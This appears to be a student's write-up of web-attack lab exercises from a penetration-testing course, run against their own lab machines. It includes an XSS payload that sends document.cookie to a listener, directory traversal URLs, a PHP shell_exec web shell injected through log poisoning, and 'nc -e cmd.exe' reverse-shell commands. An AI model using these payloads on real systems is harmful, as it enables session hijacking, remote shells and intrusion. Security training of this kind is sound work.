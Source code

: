 # 9.5.2. Practice - Exploiting Admin Consoles
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use Burp Intruder to gain access to the phpMyAdmin site running on your Windows 10 lab machine.

- We spot a phpmyadmin login portal located at the following URL `http://192.168.231.10/phpmyadmin/`
- In order to brute-force the login we must first capture the request in Burp Suite
- we then must set the correct payload variables and set the attack type to "Pitchforkl"
- Finally, we setup the payloads via the "Grep Extract" section in Intruder, capturing the response 
- Once these steps are complete we can brute force the password 


2.  Insert a new user into the "users" table.
- Once logged in, creating a user is fairly simple. Start with navigating to the "User Accounts" tab
- Click the "Create New User" button


# 9.6.6 Practice - XSS
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.
- First must craft an XSS that was successfully steal the cookie of an administrator. We will setup a listener on port 80 and use the following snippet:
- `<script>new Image().src="http://IP.ADDRESS/cool.jpg?output="+document.cookie;</script>`
-  We then input this into the "Comments" section of the web form.
- To test the validity of the XSS we then run the powershell script on the Windows machine
- We can see that the cookie was set to our listener, enabling us to adjust our cookie and hijack the admin's session

2.  Consider what other ways an XSS vulnerability in this application might be used for attacks.
	As this is a stored XSS there are numerous possible ways to exploit this XSS which would have severe implications on the server and its user's.

3.  Does this exploit attack the server or clients of the site?
As this is a stored XSS the server is on the recieving end. That being said, any user who visits the page is suseptable to attack.

# 9.7.2 Directory Traversal Vulnerabilities

## Practice - Directory Traversal Vulnerabilities

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

This exploit only requires us to visit the following url:
`http://192.168.231.10/menu.php?file=current_menu.php`

From there we can edit the field after `menu.php?file=` to any file we wish to read, for example:
`http://192.168.231.10/menu.php?file=c:\windows\system32\drivers\etc\hosts`

# 9.8.5 LFI Code Execution

#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Obtain code execution through the use of the LFI attack.
- First, we make a malicious request to the server, injecting a PHP function that will execute the OS command
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
(note the `<pre>` tag meaning the line will be saved in its preformatted state, ignore breaks and spaces)
- We then simply navigate to the vulnerable URL and call our newly injected function
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

2.  Use the code execution to obtain a full shell.
We can simply alter our URL to execute the following command:
`nc -e cmd.exe 192.168.119.231 9001`
the full URL would resemble the following:
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20-e%20cmd.exe%20192.168.119.231%209001`


# 9.8.7 Remote File Inclusion (RFI)

## Practice - Remote File Inclusion (RFI)

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the RFI vulnerability in the web application and get a shell.
2.  Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.
3.  Use one of the webshells i


# 9.8.10 PHP wrappers
## Practice - PHP Wrappers

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the LFI vulnerability using a PHP wrapper.
We simply append the php wrapper `file=data:text/plain,hello world` to the end of our url:
`http://192.168.231.10/menu.php?file=data:text/plain,hello%20world`

2.  Use a PHP wrapper to get a shell on your Windows 10 lab machine.
For this we replace the "hello world" at the end of our previous URL with a php script designed to execute code, we also place a reverse shell as our payload for the shell_exec to execute.
`<?php echo shell_exec("nc -e cmd.exe 192.168.119.231 9001") ?>`


# 9.9.4 SQL Injection - Authentication Bypass
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.

2.  SQL inject the username field to bypass the login process.

3.  Why is the username displayed like it is in the web application once the authentication process is bypassed?

4.  Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?